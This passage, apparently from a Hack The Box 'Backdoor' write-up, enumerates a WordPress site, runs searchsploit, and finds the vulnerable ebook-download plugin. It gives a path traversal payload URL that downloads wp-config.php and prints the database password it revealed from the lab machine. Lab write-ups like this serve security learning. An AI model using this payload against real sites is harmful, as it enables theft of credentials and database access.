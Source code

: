 ### Wordpress Plugins
Since web scrapping didn't end up with anything useful, we need to check other attack vectors:
We see different vulnerabilities related to SQLi via WP_Query and WP_Meta_Query but we don't have access to them. So let's run a `searchsploit` scan:
```bash
❯ searchsploit Wordpress 5.8.1
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
WordPress Plugin DZS Videogallery < 8.60 - Multi | php/webapps/39553.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL  | php/webapps/44943.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQ | php/webapps/48918.sh
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
And we got som plugin exploits, so the next step is to enumerate the plugins of the server:
At https://www.wpbeginner.com/beginners-guide/beginners-guide-to-wordpress-file-and-directory-structure/, we discover that the plugins installed in wordpress are stored at `/wp-content/plugins/`. So let's try to access that path:
![](img/2022-05-31-18-01-35.png)

So we discovered the plugin `ebook-download`, let's see what vulnerabilities can we found about it:
- https://www.exploit-db.com/exploits/39575 : This page shows a path traversal vulnerability for the plugin `ebook-download` on the version 1.1. Reading the `/wp-content/ebook-download/readme.txt` file we discover that the version used is 1.1.
  -  So the payload `http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php` will download the contents of `/wp-config.php`

Success!! We retrieved the content of `/wp-config.php` and discovered a credential:
```bash
// ** MySQL settings - You can get this info from your web host ** //
  22   │ /** The name of the database for WordPress */
  23   │ define( 'DB_NAME', 'wordpress' );
  24   │ 
  25   │ /** MySQL database username */
  26   │ define( 'DB_USER', 'wordpressuser' );
  27   │ 
  28   │ /** MySQL database password */
  29   │ define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
  30   │ 
  31   │ /** MySQL hostname */
  32   │ define( 'DB_HOST', 'localhost' );
  33   │ 
  34   │ /** Database charset to use in creating database tables. */
  35   │ define( 'DB_CHARSET', 'utf8' );
  36   │ 
  37   │ /** The database collate type. Don't change this if in doubt. */
```